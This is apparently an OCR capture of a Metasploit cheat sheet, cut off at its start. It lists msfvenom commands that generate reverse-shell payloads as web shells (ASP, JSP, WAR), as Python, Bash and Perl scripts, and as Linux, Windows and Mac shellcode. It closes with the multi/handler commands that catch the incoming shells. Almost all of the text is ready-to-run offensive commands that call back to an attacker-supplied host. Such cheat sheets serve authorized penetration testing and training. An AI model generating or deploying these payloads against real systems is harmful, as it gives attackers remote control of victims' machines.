 **ASP**

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

**JSP**

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

**WAR**

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

**Scripting Payloads**
----------------------------------------------------------------------------------------------------------------------
**Python**

msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

**Bash**

msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

**Perl**

msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

**Shellcode**

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

**Linux Based Shellcode**

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

**Windows Based Shellcode**

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

**Mac Based Shellcode**

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

**Handlers**
----------------------------------------------------------------------------------------------------------------------
Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
